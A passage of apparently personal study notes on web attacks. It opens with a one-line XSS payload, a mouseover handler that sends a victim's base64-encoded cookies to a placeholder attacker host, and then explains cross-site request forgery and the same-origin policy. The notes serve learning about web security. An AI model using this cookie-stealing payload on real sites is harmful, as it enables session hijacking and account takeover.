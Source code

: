     A sample HTTPS>HTTPS payload example can be found below:
    
    Code: javascript
    
    ```
    <h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
    ```
    
      
    

## CSRF or XSRF

- the two shortcuts are for the same thing which is cross site request forgery .
- xsrf or csrf : is an attack that is used to force an end-user to excute inadvertent actions that the end-user is currently authenticated to .
- csrf usually happen by the help of a maliciouse web page that the victum must visit or interact with .
- leveraging the lack of anti-CSRF security mechanisms .
- csrf attacks generally target the functions that cause : a state change on the server .but, can also be used to access sensitive data like xss
- To successfully exploit a CSRF vulnerability, we need:
    
    - To craft a malicious web page that will issue a valid (cross-site) request impersonating the victim
    - The victim to be logged into the application at the time when the malicious cross-site request is issued

- look imp:
    
    Cross-site requests are common in web applications and are used for multiple legitimate purposes.
    
    Cross-Site Request Forgery (CSRF or XSRF) is an attack that forces an  
    end-user to execute inadvertent actions on a web application in which  
    they are currently authenticated. This attack is usually mounted with  
    the help of attacker-crafted web pages that the victim must visit or  
    interact with, leveraging the lack of anti-CSRF security mechanisms.  
    These web pages contain malicious requests that essentially inherit the  
    identity and privileges of the victim to perform an undesired function  
    on the victim's behalf. CSRF attacks generally target functions that  
    cause a state change on the server but can also be used to access  
    sensitive data.
    
    A successful CSRF attack can compromise end-user data and operations  
    when it targets a regular user. If the targeted end-user is an  
    administrative one, a CSRF attack can compromise the entire web  
    application.
    
    During CSRF attacks, the attacker does not need to read the server's  
    response to the malicious cross-site request. This means that [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) cannot be considered a security mechanism against CSRF attacks.
    
    **Reminder**: According to Mozilla, the same-origin  
    policy is a critical security mechanism that restricts how a document or  
    script loaded by one origin can interact with a resource from another  
    origin. The same-origin policy will not allow an attacker to read the  
    server's response to a malicious cross-site request.
    